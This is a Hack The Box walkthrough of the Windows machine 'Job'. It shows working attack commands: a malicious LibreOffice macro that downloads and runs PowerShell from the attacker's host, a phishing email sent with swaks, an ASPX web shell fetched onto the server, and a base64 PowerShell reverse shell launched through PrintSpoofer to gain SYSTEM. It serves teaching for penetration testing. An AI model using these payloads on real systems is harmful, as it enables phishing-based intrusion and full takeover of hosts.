






# HTB: Job


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Job) |
| Difficulty | Medium |
| OS | Windows |
| Author | ByteFragment |
| Date | November 21st 2026 |


## Enumeration.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.234.73 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan:

```
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Job.local
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=job
| Not valid before: 2026-11-20T02:20:25
|_Not valid after:  2027-05-22T02:20:25
|_ssl-date: 2026-11-21T02:37:42+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-21T02:37:22+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows
```

From the nmap results, we can see that the target machine is running an `SMTP` server on port 25 using hMailServer, an `HTTP` server on port 80, an `SMB` share on port 445, an `RDP` server on port 3389 and `windows remote management` on port 5985. We can also see that the Host is named  `JOB` so lets add `job.vl` to our /etc/hosts file and visit that url in FireFox:

### Web Recon


Visiting the URL we are greeted with a homepage stating the company is looking for developers and instructing applicants to `Please send your application to career@job.local! We recently switched to using open source products - please send your cv as a libre office document.`.

### SMB Enumeration

Switching to the SMB server we find that both guest and anonymous login is disabled:

```
┌──(kali㉿kali)-[~/labs_htb/Job]
└─$ nxc smb 10.129.234.73 -u guest -p ''
SMB         10.129.234.73   445    JOB              [*] Windows Server 2022 Build 20348 (name:JOB) (domain:job) (signing:True) (SMBv1:None)
SMB         10.129.234.73   445    JOB              [-] job\guest:######## STATUS_ACCOUNT_DISABLED 
                                                                                                                                                 
┌──(kali㉿kali)-[~/labs_htb/Job]
└─$ nxc smb 10.129.234.73 -u '' -p ''   
SMB         10.129.234.73   445    JOB              [*] Windows Server 2022 Build 20348 (name:JOB) (domain:job) (signing:True) (SMBv1:None)
SMB         10.129.234.73   445    JOB              [-] job\:######## STATUS_ACCESS_DENIED 
```

### FootHold

Going back to the message on the web page it gives us a key piece of information, it tells us that they are using `libreoffice`.

Though we don't know what specific version they are using we can still search for vulnerabilities online. Doing so we find this [exploit-db](https://www.exploit-db.com/exploits/46727) post that provides a `LibreOffice < 6.0.7 / 6.1.3 - Macro Code Execution` module for Metasploit.

Let's open up Metasploit using the `msfconsole` command and search for libreoffice:

```
msf > search libreoffice

Matching Modules
================

   #  Full Name                                             Disclosure Date  Rank       Check  Name
   -  ---------                                             ---------------  ----       -----  ----
   0  exploit/multi/misc/openoffice_document_macro          2017-02-08       excellent  No     Apache OpenOffice Text Document Malicious Macro Execution

--- SNIP ---

   4  exploit/multi/fileformat/libreoffice_macro_exec       2018-10-18       normal     No     LibreOffice Macro Code Execution                                .                .          .      .

--- SNIP ---
```

While result ID 4 is the one referenced in the exploit-db post when ran it gives a powershell command `Powershell command length is greater than the command line maximum` error so we will just use module 0.

```
msf > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(multi/misc/openoffice_document_macro) > options

Module options (exploit/multi/misc/openoffice_document_macro):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BODY                       no        The message for the document body
   FILENAME  msf.odt          yes       The OpenOffice Text document name
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0
                                        .0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SRVSSL    false            no        Negotiate SSL/TLS for local server connections
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.122.112  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Apache OpenOffice on Windows (PSH)


View the full module info with the info, or info -d command.
```

Using the options command we see that we need to change the `SVRHOST` and `LHOST` to be the IP address of our attack machine. Additionally since the default payload is set to be a meterpreter shell and we just want a regular windows reverse shell we will need to change that as well:

```
msf exploit(multi/misc/openoffice_document_macro) > set SRVHOST 10.10.15.249
SRVHOST => 10.10.15.249
msf exploit(multi/misc/openoffice_document_macro) > set LHOST 10.10.15.249
LHOST => 10.10.15.249
msf exploit(multi/misc/openoffice_document_macro) > set PAYLOAD windows/shell/reverse_tcp
```

We are now ready to run the module:

```
msf exploit(multi/misc/openoffice_document_macro) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/misc/openoffice_document_macro) > 
[*] Started reverse TCP handler on 10.10.15.249:4444 
[*] Using URL: http://10.10.15.249:8080/wnuXdx2I3aMlN
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
--- SNIP ---
[+] msf.odt stored at /home/kali/.msf4/local/msf.odt
```

It's important we understand what Metasploit is doing here so let's break it down. It first created a randomized URL `http://10.10.15.249:8080/wnuXdx2I3aMlN` in which it will host the payload. Then it starts a HTTP server on port 8080. Lastly it created the malicious .odt file that contains the reverse shell macro, let's open the document in `LibreOffice Writer` and examine the macro:



Here we can see that when we open the document we receive a `Macros disabled` error with an option on the right side of the screen to `Show Macros`. Clicking on it reveals a menu where we can select and edit our macro:



This revealed the malicious macro:



```
Shell("cmd.exe /C ""powershell.exe -nop -w hidden -c $V=new-object net.webclient;if([System.Net.WebProxy]::GetDefaultProxy().address -ne $null){$V.proxy=[Net.WebRequest]::GetSystemWebProxy();$V.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;};IEX ((new-object Net.WebClient).DownloadString('http://10.10.15.249:8080/wnuXdx2I3aMlN'));""")
```

We're gonna replace this reverse shell with a simpler base64 encoded one from [revshells](https://www.revshells.com/). This one will not require the payload to be retrieved from a URL but will simply initiate a rev shell connection:



Before we send the malicious .odt document we need to set up a listener to catch the reverse shell connection:

```
nc -nlvp 4444
```

We are now ready to send the malicious file which we will do using [swaks](https://www.kali.org/tools/swaks/) SMTP command line tool. To send mail using swaks we need to specify following:

- --to [career@jobs.local](mailto:career@jobs.local)

- --from [bytefragment@htb.com](mailto:bytefragment@htb.com)

- --header "Subject: Job Application"

- --body "Please Review"

- --attach @msf.odt

- --server TARGET\_IP

It is important to include the `@` sign before the file name for the --attach option as this prevents it from being interpreted as a string.

Our finished command looks like the following:

```
┌──(kali㉿kali)-[~/labs_htb]
└─$ swaks --to career@job.local --from bytefragment@htb.com --header "Subject: Job Application" --body "Please Review" --attach @msf.odt --server 10.129.234.73
```

Running the command we can see how the mail is being sent:

```
┌──(kali㉿kali)-[~/labs_htb/Job]
└─$ swaks --to career@job.local --from bytefragment@htb.com --header "Subject: Job Application" --body "Please Review" --attach @msf.odt --server 10.129.234.73
=== Trying 10.129.234.73:25...
=== Connected to 10.129.234.73.
<-  220 JOB ESMTP
 -> EHLO kali.kali
<-  250-JOB
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<bytefragment@htb.com>
<-  250 OK
 -> RCPT TO:<career@job.local>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sun, 22 Nov 2026 12:52:10 -0800
 -> To: career@job.local
 -> From: bytefragment@htb.com
 -> Subject: Job Application
 -> Message-Id: <20261122125210.003901@kali.kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_3901"
 -> 
 -> ------=_MIME_BOUNDARY_000_3901
 -> Content-Type: text/plain
 -> 
 -> Please Review
 -> ------=_MIME_BOUNDARY_000_3901
 -> Content-Type: application/octet-stream; name="msf.odt"
 -> Content-Description: msf.odt
 -> Content-Disposition: attachment; filename="msf.odt"
 -> Content-Transfer-Encoding: BASE64
 -> 
 -> UEsDBBQAAAgAADSjdl1exjIMJwAAACcAAAAIAAAAbWltZXR5cGVhcHBsaWNhdGlvbi92bmQub2Fz
 -> aXMub3BlbmRvY3VtZW50LnRleHRQSwMEFAAICAgANKN2XQAAAAAAAAAAAAAAAAwAAABzZXR0aW5n

--- SNIP ---
```

Checking our listener we see that we have indeed gained a reverse shell on the target machine!

```
┌──(kali㉿kali)-[~/labs_htb]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.249] from (UNKNOWN) [10.129.234.73] 57167
whoami
job\jack.black
PS C:\Program Files\LibreOffice\program> hostname
job
PS C:\Program Files\LibreOffice\program> 
```

## Lateral Movement

Changing into the `C:\` directory and listing its contents we find the `inetpub` folder which is a part of the IIS or `Internet Information Services` feature in Windows. This directory contains the `wwwroot` web root folder for the web page we visited earlier. In the `wwwroot` directory we find the index.html file for the web page but also a `hello.aspx` file.

" A file with the ASPX extension is an Active Server Page Extended file for Microsoft's ASP.NET framework, also called a .NET web form. Although they appear similar, ASPX files aren't the same as Web Handler files ending in ASHX.

A web server generates ASPX files, which contain scripts and source code that direct a browser on how to open and display a web page. " - [Tim Fisher](https://www.lifewire.com/what-is-an-aspx-file-2619705)

HackTricks has a great [article](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/iis-internet-information-services.html) on pentesting IIS.

It states that if we have write access to `C:\inetpub\wwwroot` we can drop a ASPX web shell and execute OS commands.

Let's use the `icacls` command to display the access control list for the `wwwroot` directory, we are looking for users/groups with (F):

```
PS C:\inetpub> icacls wwwroot   
wwwroot JOB\developers:(OI)(CI)(F)
        BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
        NT SERVICE\TrustedInstaller:(I)(F)
        NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
        BUILTIN\Users:(I)(RX)
        BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
        CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

The only non standard group is the `JOB\developers` group, lets examine their permissions using the Microsoft documentation as [reference](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls):

- (OI) : Object inherit. Objects in this container inherits this ACE. Applies only to directories.

- (CI) : Container inherit. Containers in this parent container inherits this ACE. Applies only to directories.

- F : Full access

Great! So we have a group that can write to the directory, let's see if our current user `jack.black` is apart of that group:

```
PS C:\inetpub> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes                                        
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
JOB\developers                         Alias            S-1-5-21-3629909232-404814612-4151782453-1001 Mandatory group, Enabled by default, Enable

--- SNIP ---
```

We see that `jack.black` is indeed a member of the developers group meaning we can create a web shell in the wwwroot directory!

We can find a aspx web shell on kali at `/usr/share/webshells/aspx/cmdasp.aspx` so let's copy that into our working directory and start a python web server:

```
┌──(kali㉿kali)-[~/labs_htb/Job]
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx .

┌──(kali㉿kali)-[~/labs_htb/Job]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Back in our rev shell let's download this web shell:

```
PS C:\inetpub> iwr http://10.10.15.249/cmdasp.aspx -OutFile C:\inetpub\wwwroot\shell.aspx
PS C:\inetpub> dir wwwroot


    Directory: C:\inetpub\wwwroot


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----        11/10/2021   8:52 PM                aspnet_client                                                        
d-----         11/9/2021   9:24 PM                assets                                                               
d-----         11/9/2021   9:24 PM                css                                                                  
d-----         11/9/2021   9:24 PM                js                                                                   
-a----        11/10/2021   9:01 PM            298 hello.aspx                                                           
-a----         11/7/2021   1:05 PM           3261 index.html                                                           
-a----        11/22/2026  11:49 PM           1400 shell.aspx  
```

We can then visit `\shell.aspx` in a web browser:



We now have the ability to execute commands on the target machine so let's use this to gain a reverse shell. First we need to set up another listener:

```
nc -lvnp 1234
```

We can then execute a reverse shell payload in the web shell, again we can use [revshells](https://www.revshells.com/) to obtain the payload:



Running this command in our web shell we can see that we successfully obtained a reverse shell as `iis apppool\defaultapppool`:

```
┌──(kali㉿kali)-[~/labs_htb/Job]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.249] from (UNKNOWN) [10.129.234.73] 57174
whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> hostname
job
PS C:\windows\system32\inetsrv>
```

## Privilege Escalation

Using the `whoami /priv` command we can see what privileges this new account has:

```
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 
```

We can use potentially use the `SeImpersonatePrivilege` privilege to ecalate our privileges. While there are a couple of options we could use for this type of privilege escalation we will be using `PrintSpoofer64.exe` which can be obtained [here](https://github.com/itm4n/PrintSpoofer/releases).

After transferring the executable to the target machine using the same method as we did with the web shell we can set up another listener on a different port, get another rev shell payload from revshells and run the command:

```
PS C:\Windows\Temp> .\PrintSpoofer.exe -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMgA0ADkAIgAsADQAMwAyADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Checking our listener we find we have a reverse shell as `nt authority\system`:

```
┌──(kali㉿kali)-[~/labs_htb/Job]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.15.249] from (UNKNOWN) [10.129.234.73] 57177
whoami
nt authority\system
PS C:\Windows\system32> hostname
job
```

The root.txt file can be found in the Administrators Desktop folder thus solving the challenge!


